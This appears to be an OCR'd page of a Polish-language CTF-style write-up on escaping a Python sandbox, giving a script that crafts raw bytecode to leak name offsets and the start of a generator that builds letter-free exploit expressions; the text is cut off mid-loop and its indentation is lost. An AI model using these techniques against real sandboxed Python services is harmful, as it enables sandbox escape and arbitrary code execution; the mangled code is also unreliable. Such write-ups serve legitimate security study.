 Najpierw oto skrypt, który pomoże nam znaleźć te offsety nazw.
```python
from types import CodeType
from opcode import opmap
from sys import argv


class MockBuiltins(dict):
def __getitem__(self, k):
if type(k) == str:
return k


if __name__ == '__main__':
n = int(argv[1])

code = [
*([opmap['EXTENDED_ARG'], n // 256]
if n // 256 != 0 else []),
opmap['LOAD_NAME'], n % 256,
opmap['RETURN_VALUE'], 0
]

c = CodeType(
0, 0, 0, 0, 0, 0,
bytes(code),
(), (), (), '<sandbox>', '<eval>', 0, b'', ()
)

ret = eval(c, {'__builtins__': MockBuiltins()})
if ret:
print(f'{n}: {ret}')

# for i in $(seq 0 10000); do python find.py $i ; done1234567891011121314151617181920212223242526272829303132
```
A poniżej znajduje się kod do generowania prawdziwego exploita w Pythonie.
```python
import sys
import unicodedata


class Generator:
# get numner
def __call__(self, num):
if num == 0:
return '(not[[]])'
return '(' + ('(not[])+' * num)[:-1] + ')'

# get string
def __getattribute__(self, name):
try:
offset = None.__dir__().index(name)
return f'keys[{self(offset)}]'
except ValueError:
offset = None.__class__.__dir__(None.__class__).index(name)
return f'keys2[{self(offset)}]'


_ = Generator()

names = []
chr_code = 0
for x in range(4700):
```